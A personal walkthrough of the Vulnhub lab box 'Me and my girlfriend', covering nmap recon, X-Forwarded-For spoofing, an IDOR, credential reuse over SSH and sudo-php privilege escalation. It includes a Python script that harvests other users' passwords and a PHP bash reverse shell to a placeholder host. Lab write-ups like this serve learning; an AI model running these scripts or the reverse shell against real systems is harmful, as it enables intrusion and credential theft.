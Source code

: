 # Vulnhub : Me and my girlfriend
***
This is one of the first boxes I solved while learning cyber security. This is my version of how I solved the box. Enjoy 
<br><br>
## Recon
***
First we need to find the device on the network.
```bash
nmap 192.168.56.*
```

![Basic nmap](./screenshots/1_finding_device.png)

From the result we can see that our vulnhub box has ip 192.168.56.120. Lets scan the device using nmap again

```bash
nmap 192.168.56.126 -sC -sV -oN nmap
```

![Detailed nmap](./screenshots/2_nmap.png)

Only SSH and a HTTP is available for the time being. Lets see the webpage.

![Landing page](./screenshots/3_landing.png)

It has a message. Looks like the webserver accepts request from localhost. Lets see the source code to see if its a framework or just some typed code

![Web source code](./screenshots/4_source.png)

Well, there is a comment : <br> ``` Maybe you can search how to use x-forwarded-for```

For all who didn't get it. You see, when we make a web request additonal details are sent with the request; like type of request, data inside the requests, origin etc... Such details are stored in the headers. Now, there are standard headers as well as custom headers. <br>
**X-Forwarded-For** is one such custom header, which specifies the **origin of the request**. There are several similar headers, I'll leave that to you to explore <br>

Let us use burp to test our theory. First i'll capture the request and then I'll modify it.
![Burp test](./screenshots/5_burp.png)

I'll forward the request to Repeater tab and lets add our X-Forwarded-For header
![Burp response](./screenshots/6_add_header.png)

Well, you can see we get a 302 redirect. Lets render the page inside burp and get what is inside.
![Rendered webpage](./screenshots/7_rendered.png)
The page looks legit. For our convinience lets do a small workaround. Instead of adding the header manually to each request, lets tell burp to add them and we'll view the result in the browser.
<br>
In burp, ***Options*** ==> ***Match and Replace*** ==> ***Add**<br>

![Add rule](./screenshots/8_match_and_replace.png)

Don't match for anything, just add X-Forwarded-For header to request. Click okay and make sure that a blue checkmark is enabled. Now disable intercept and view the webpage in browser.
![Browser response](./screenshots/9_landing.png)
Looks like it has some register functionality. Lets add a new user and see the working inside. I'll make my account as legit as possible.
![Account creation](./screenshots/10_register.png)
After registering we get a profile section. Lets visit that.
![Profile section](./screenshots/11_after_register.png)
Did you notice something ? 
1. URL has an ***user_id** parameter
2. Profile page shows our password in a form
<br>

This might be our entry point. First of all if there is a user_id that the web server is using to display data, maybe we can change and look at other user's data.<br>
Second of all, note that the password is masked, but it will be visible if you inspect the webpage
![Close inspection](./screenshots/12_profile_page.png)
<br><br>
![IDOR](./screenshots/13_idor.png)
As it turns out we can see others users data.
Lets write a simple python script to gather data of exiting users.

<br>
Here's the code : [get_creds.py](https://gist.github.com/ajaysram/80a19ec3f91ce761e62c0b56b11d037e)

```python
import requests
import re


headers = {"X-Forwarded-For":"localhost"}

requests.get("http://192.168.56.125/?page=login",headers=headers)
data = {"username":"dbadmin","password":"1234"}

with requests.Session() as s:
    a = s.post("http://192.168.56.125/misc/process.php?act=login",data=data,headers=headers)

    base_url = "http://192.168.56.125/?page=profile&user_id="
    print("USER",21*' ',"USERNAME",17*' ',"PASSWORD")
    for i in range(0,100):
        user_url = base_url + str(i)
        d = s.post(user_url,headers=headers)
        data = re.findall('value=.*\"',d.text)

        cleaned = []
        for d in data:
            cleaned.append(d.replace('value="',"").replace('"',""))

        names     = cleaned[0]
        usernames = cleaned[1]
        password  = cleaned[2]
        if len(names) != 0:
            print(names,(25-len(names))*' ',usernames,(25 - len(usernames))*' ',password)
```

![Gathering creds](./screenshots/14_creds.png)

**tee** command here, works similar to the letter **T**. It takes output of a result and splits then into two; first to standard out and other to a file.

<br><br>
## Getting user
***
Let's SSH into the box as alice with the password we gathered.
![SSH Alice](./screenshots/15_alice_ssh.png)
And it works ! That's why we say not to use same password for all stuffs !!!
Lets list all directories and see the contents inside.
![Flag 1](./screenshots/16_flag1.png)
There is your first flag and a note. Do read them.<br>
Lets get move on. Now, lets see if we can get root (admin) privileges. Do a sudo listing and see the commands **root** can run.
![Sudo listing](./screenshots/17_sudo_list.png)
Whoa !!! root can run php without password. Now you know what to do next.<br>
Lets create a php reverse shell and get a connection callback.<br>
![PHP reverse shell](./screenshots/18_revshell.png)
```php
<?php 
    exec(""/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/9000 0>&1');
?>
```

<br>
<br>

## Getting root
***

Lets run the revershell as root. Since root can run php without password, we get a connection with root priviledges.
![Getting root](./screenshots/19_getting_root.png)

And there you have it, you have full control over the box.<br>
***
The box is pretty simple to solve and focuses on small parts of cybersecurity. You get to learn new stuff and you code some cool scripts. Do follow for more writeups.<br>
Till then, keep learning

